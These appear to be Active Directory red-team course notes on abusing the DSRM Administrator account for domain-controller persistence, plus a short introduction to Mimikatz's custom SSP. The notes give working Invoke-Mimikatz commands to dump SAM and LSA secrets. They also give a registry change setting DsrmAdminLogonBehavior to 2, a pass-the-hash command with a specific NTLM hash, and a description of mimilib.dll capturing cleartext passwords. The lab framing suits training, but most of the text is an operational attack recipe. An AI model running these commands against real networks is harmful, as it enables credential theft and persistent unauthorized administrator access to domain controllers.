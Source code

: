 - There is a local admin is every DC called *Administrator* whose password is the DSRM password
- DSRM password (**SafeModePassword**) is required when a server is promoted to DC and its rarely changed
- After altering the configuration on the DC, its possible to pass the NTLM hash of this user to access the DC

**Dump DSRM password**:

> needs DA privs

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

**Compare the Administrator hash with the Administrator hash of below command**:
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

> First one is the DSRM local Administrator 


- Since it is the local administrator of the DC, we can pass the hash to authenticate.

But, **the Logon Behavior for the DSRM account needs to be changed before we can use its hash**:
```powershell
Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

**Use below command to pass the hash**:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"' 
ls \\dcorp-dc\C$
```


Learning Objective 11

- Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.

> OPSEC order: **Silver** > **Diamond** > **Golden**




## Custom SSP

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:
```powershell
– NTLM
– Kerberos
– Wdigest
– CredSSP
```

Mimikatz provides a custom SSP - **mimilib.dll**. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

